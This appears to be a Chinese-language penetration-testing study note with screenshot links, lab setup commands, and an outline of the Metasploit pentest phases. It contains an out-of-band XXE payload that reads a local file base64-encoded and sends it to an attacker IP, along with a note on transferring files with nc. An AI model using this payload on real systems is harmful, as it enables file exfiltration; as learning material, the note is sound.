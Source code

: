 ![image-20230420092705545](https://cdn.jsdelivr.net/gh/PDX33/image/202305181753697.png)

![image-20230420093215065](https://cdn.jsdelivr.net/gh/PDX33/image/202305181753396.png)对于有特殊符号的可以用加密读取

![image-20230420093540131](https://cdn.jsdelivr.net/gh/PDX33/image/202305181754732.png)



![image-20230420101702345](https://cdn.jsdelivr.net/gh/PDX33/image/202305181754499.png)

![image-20230420102435523](https://cdn.jsdelivr.net/gh/PDX33/image/202305181754000.png)

&#x25;

ip是攻击机的

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/1/1.txt" >
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://192.168.1.128:4001/?p=%file;'>">

docker-compose up -d 开环境

docker-compose down关环境

nc传文件  加IP < 要传的文件

## Metasploit

### 渗透测试阶段

1. 前期交互

   与客户确定测试的范围和目标。这个阶段最为关键的是需要让客户组织明确清晰地了解渗透测试涉及哪些目标。而这个阶段也为你提供了机会来说服客户走出全范围渗透测试的理想化愿景，选择更加现实可行的渗透测试目标来进行实际实施

2. 情报搜集阶段

   使用各种方法搜集将要攻击的客户组织信息包括社交媒体网络、Google Hacking技术、目标系统踩点等等。作为渗透测试者最为重要的一点是对目标系统的探查能力，包括获知它的行为模式、运行机理以及最终它可以如何被攻破。

3. 威胁建模阶段

   使用你在情报搜集阶段的信息来标识出目标系统上可能存在的安全漏洞和弱点。在进行威胁建模时，你将确定出最为高效得到攻击方法。

4. 漏洞分析阶段

   确定攻击方法之后，就要考虑如何取得目标系统的访问权。

5. 渗透攻击阶段

6. 后渗透攻击阶段

   

7. 报告阶段

   

   

   ##### **渗透测试模型**
